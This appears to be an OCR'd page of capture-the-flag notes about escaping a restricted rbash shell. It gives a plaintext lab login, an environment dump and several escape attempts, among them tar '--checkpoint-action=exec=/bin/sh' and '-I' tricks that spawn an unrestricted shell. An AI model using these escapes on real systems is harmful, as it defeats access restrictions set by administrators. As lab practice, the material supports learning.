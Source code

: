 Su ayush

username – ayush

password – jiujitsu

EXPORT

export -p to view the shell resitrictions this shows all the read only. declare -rx PATH="/home/ayush/.app" declare -rx SHELL="/opt/rbash"

```
export -p
declare -x APACHE_LOCK_DIR="/var/lock/apache2"
declare -x APACHE_LOG_DIR="/var/log/apache2"
declare -x APACHE_PID_FILE="/var/run/apache2/apache2.pid"
declare -x APACHE_RUN_DIR="/var/run/apache2"
declare -x APACHE_RUN_GROUP="www-data"
declare -x APACHE_RUN_USER="www-data"
declare -x HOME="/home/ayush"
declare -x INVOCATION_ID="df9e05d0804e4d1da0747f6120c01317"
declare -x JOURNAL_STREAM="9:19877"
declare -x LANG="en_US.UTF-8"
declare -x LOGNAME="ayush"
declare -x MAIL="/var/mail/ayush"
declare -x OLDPWD="/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile"
declare -rx PATH="/home/ayush/.app"
declare -x PWD="/home"
declare -x SELFAUTODIR="/usr"
declare -x SELFAUTOGRANDPARENT="/"
declare -x SELFAUTOLOC="/usr/bin"
declare -x SELFAUTOPARENT="/"
declare -rx SHELL="/opt/rbash"
declare -x SHLVL="2"
declare -x USER="ayush"
declare -x XDG_RUNTIME_DIR="/run/user/1001"
declare -x XDG_SESSION_ID="c4"
declare -x engine="pdftex"
declare -x progname="pdflatex"

```

```
export SHELL="/bin/bash"
export SHELL="/bin/bash"
rbash: SHELL: readonly variable
export USER="WWW-DATA" =fail

echo $PATH returns /home/ayush/.app

echo os.system("/bin/bash")
echo os.system"/bin/bash"

python -c "import os; os.system('cp');"

cannot redirect output
cd is restricted
can't use /
tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
access to tar

tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
/bin/ls
/bin/cat


```